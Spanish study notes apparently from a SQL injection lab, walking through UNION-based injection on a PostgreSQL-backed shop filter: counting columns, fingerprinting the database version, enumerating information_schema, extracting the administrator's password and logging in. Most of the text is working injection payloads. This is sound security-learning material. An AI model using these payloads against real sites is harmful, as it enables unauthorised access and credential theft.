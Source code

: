 Objetivo: Conocer que tabla contiene los nombre de usuario y la contraseña.
 - Conocer las tablas importantes
 - Contenido de las tablas
 - Logearnos como el usuario administrador

Consulta Original: `SELECT * FROM articles WHERE category='Gifts'`

![[Pasted image 20250718165549.png]]

#### Averiguar la cantidad de columnas que tiene la tabla en uso:
****
Si realizamos un ordenamiento respecto a la segunda columna con `' ORDER BY 2-- -`
o `' UNION SELECT "a","b"-- -` vemos que la web no lanza ningun error. Por lo tanto entendemos que la tabla tiene 2 columnas.

Consulta para averiguar la cantidad de columnas de la tabla en uso: `SELECT * FROM articles WHERE category='Gifts' ORDER BY 2-- -'`

Consulta (UNION): `SELECT * FROM articles WHERE category='Gifts' UNION SELECT "a","b"-- -'`

![[Pasted image 20250718170140.png]]

#### Averiguar a qué Base de Datos nos estamos enfrentando
****
Cada gestor de bases de datos tiene su forma de consultar la versión de la misma, de colocar comentarios, etc. Por lo tanto tendremos en cuenta lo siguiente al querer averiguar la versión.

##### Database version

| Gestor     | Consulta                                                           |
| ---------- | ------------------------------------------------------------------ |
| Oracle     | `SELECT banner FROM v$version   SELECT version FROM v$instance   ` |
| Microsoft  | `SELECT @@version`                                                 |
| PostgreSQL | `SELECT version()`                                                 |
| MySQL      | `SELECT @@version`                                                 |
Consulta PostgreSQL: `SELECT * FROM articles WHERE category='Gifts' UNION SELECT version(),NULL-- -'`

![[Pasted image 20250718171306.png]]
![[Pasted image 20250718171328.png]]

Ahora que sabemos la versión de la base de datos que corre por detrás, debemos conocer cuáles son las tablas que existen dentro de la DB.

#### Conocer la tabla que almacena los usuarios y las contraseñas.
****
Para ello, haremos uso de `information_schema`
- `information_schema.schemata` -> Bases de datos existentes.
- `information_schema.tables` -> Tablas existentes
- `information_schema.columns` -> Columnas existentes

Consulta para ver las Bases de datos existentes: `' UNION SELECT schema_name,NULL FROM information_schema.schemata-- -`

El `NULL` es el valor que va en la segunda columna de la tabla.
 
![[Pasted image 20250718173103.png]]

Vemos que hay 3 bases de datos, la que a nosotros nos interesa es la `public`. Lo siguiente que queremos hacer es ver las tablas existentes dentro de la base de datos `public`. Para ello, usaremos la siguiente consulta:

Consulta para averiguar las tablas de una Base de dato específica: `' UNION SELECT table_name,NULL FROM information_schema.tables WHERE table_schema='public'-- -`

![[Pasted image 20250718181406.png]]

Aquí vemos dos tablas dentro de la base de datos  `public`: `products` y `users_xevxih`.
En la tabla `users_xevxih` están almacenadas las credenciales.

Consulta para conocer las columnas de una tabla: `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_xevxih'-- -`

![[Pasted image 20250718182515.png]]

Vemos representadas las columnas de la tabla `users_xevxih`. Estas son: `password_eeqfiy`, `username_nzsgkn` y `email`. Ahora queremos conocer la contraseña del usuario `administrator`.

Consulta para conocer la contraseña de un usuario: `' UNION SELECT username_nzsgkn,password_eeqfiy FROM users_xevxih WHERE username_nzsgkn='administrator'-- -`

![[Pasted image 20250718183352.png]]

Aquí vemos representada el usuario y la contraseña del usuario `administrator`.

#### Nos autenticamos como el usuario administrator

![[Pasted image 20250718183626.png]]

![[Pasted image 20250718183648.png]]
